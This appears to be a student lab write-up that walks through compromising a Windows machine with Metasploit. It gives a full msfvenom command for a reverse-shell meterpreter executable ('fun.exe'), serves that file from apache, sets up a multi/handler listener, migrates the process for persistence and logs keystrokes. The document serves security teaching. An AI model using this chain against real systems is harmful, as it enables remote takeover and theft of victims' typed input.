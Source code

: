 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
PROGRAM: Find the attackers ip address using ifconfig
![6 1nnn](https://github.com/user-attachments/assets/9ae5b3bb-9929-4888-8a8a-abc800815ae5)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe copy the fun.exe into the apache /var/www/html folder Start apache server sudo systemctl apache2 start Check the status of apache2 sudo apache2 status
## output:
![6 2nn](https://github.com/user-attachments/assets/91e14337-60ce-4cc4-bb83-52f8ef43eb6c)

Invoke msfconsole: Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole. Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

## output:
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![431915762-729dc34c-b5b1-4cc6-8770-22d2331caede](https://github.com/user-attachments/assets/9d271d68-4a2f-453c-ac8b-8bca86c8b4bb)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
![431915851-d93cac14-3fc3-444b-8159-bc2e0bc66d3a](https://github.com/user-attachments/assets/f2ca75f7-2887-4336-ae2e-12c6013105cb)
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![431915958-2cfb6dd1-773b-4b42-9cd5-6cbb204a3145](https://github.com/user-attachments/assets/5648e16b-3be2-4722-806d-4ddfbe014106)
Post Exploitation: The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

keyscan_dump Shows the keystrokes captured so far 

![431916021-0810a377-a529-4f89-896e-af33fad9b043](https://github.com/user-attachments/assets/b5f08410-8ba5-4300-9044-0611f4724bbb)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
